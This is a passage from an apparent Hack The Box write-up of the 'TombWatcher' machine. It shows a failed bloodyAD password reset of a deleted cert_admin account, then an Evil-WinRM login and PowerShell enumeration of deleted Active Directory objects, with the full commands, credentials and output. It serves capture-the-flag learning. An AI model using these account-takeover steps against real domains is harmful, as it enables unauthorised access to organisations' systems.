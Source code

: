 Now we can change `cert_admin` password's:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb'  -u 'john' -p 'Hacker123!' set password cert_admin 'Hacker123!' 
Traceback (most recent call last):
  File "/usr/bin/bloodyAD", line 8, in <module>
    sys.exit(main())
             ~~~~^^
  File "/usr/lib/python3/dist-packages/bloodyAD/main.py", line 201, in main
    output = args.func(conn, **params)
  File "/usr/lib/python3/dist-packages/bloodyAD/cli_modules/set.py", line 86, in password
    conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
    ~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/bloodyAD/network/ldap.py", line 281, in bloodymodify
    self.modify(self.dnResolver(target), changes, controls, encode=encode),
                ~~~~~~~~~~~~~~~^^^^^^^^
  File "/usr/lib/python3/dist-packages/bloodyAD/network/ldap.py", line 265, in dnResolver
    ).result()
      ~~~~~~^^
  File "/usr/lib/python3.13/concurrent/futures/_base.py", line 456, in result
    return self.__get_result()
           ~~~~~~~~~~~~~~~~~^^
  File "/usr/lib/python3.13/concurrent/futures/_base.py", line 401, in __get_result
    raise self._exception
  File "/usr/lib/python3/dist-packages/bloodyAD/network/ldap.py", line 259, in asyncDnResolver
    raise NoResultError(self.domainNC, ldap_filter)
bloodyAD.exceptions.NoResultError: [-] No object found in DC=tombwatcher,DC=htb with filter: (sAMAccountName=cert_admin)
```

Didn't work so we need to login with [Evil-WinRM](../../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ evil-winrm -i 10.10.11.72 -u john -p 'Hacker123!'
```

And run this commands to change the password:

```powershell
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 34509cb3-2b23-417b-8b98-13f0bd953319

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectClass       : user
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectClass       : user
```